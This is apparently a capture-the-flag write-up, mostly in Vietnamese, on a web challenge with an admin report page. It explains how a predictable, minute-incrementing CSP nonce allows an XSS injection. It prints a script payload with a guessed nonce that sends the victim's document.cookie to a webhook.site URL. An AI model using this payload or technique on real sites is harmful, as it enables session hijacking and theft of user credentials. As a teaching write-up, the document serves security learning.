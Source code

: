 Description
Our team is highly proficient in resolving a wide range of issues.

Whatever challenge you may be facing, simply present it to us, and we'll promptly provide a solution, and our employees get a cookie.


Challenge cung cấp cho tôi một trang report admin 


![1](./1.png)




Yeah mình đoán ngay được chúng ta có thể thực thi XSS ngay tại phần Description

![2](./2.png)


Mình thử XSS xem nào nhưng có vẻ nó không hoạt động

![3](./1.png)

Có vẻ như nó đã sử dụng CSP để chặn chúng ta thực thi XSS bằng cách sử dụng *nonce*  
**The 'nonce-value' token (keyword) (second notation 'nonce-<base64-value>') allows only trusted inline scripts and inline styles controlled by the protected page. Therefore, using it is a safer alternative 'unsafe-inline', which opens to execution any inline scripts and styles indiscriminately.**
Vì vậy chúng ta nhập đoạn script chứa nonce đúng với trang web nonce trang web cung cấp


![3](./3.png)


![4](./4.png)


Và mình nhận ra là mỗi phút nó sẽ tăng giá trị nonce lên 1 vậy chúng ta dễ dàng đoán được giá trị nonce tiếp theo và thực thi XSS thôi


```<script type="text/javascript" nonce="28088862">
document.location="	https://webhook.site/d04b07cc-67cc-487f-ab4f-731e51a013d2/?flag="+document.cookie;
</script>
```


Và boom we get the flag


![5](./9.png)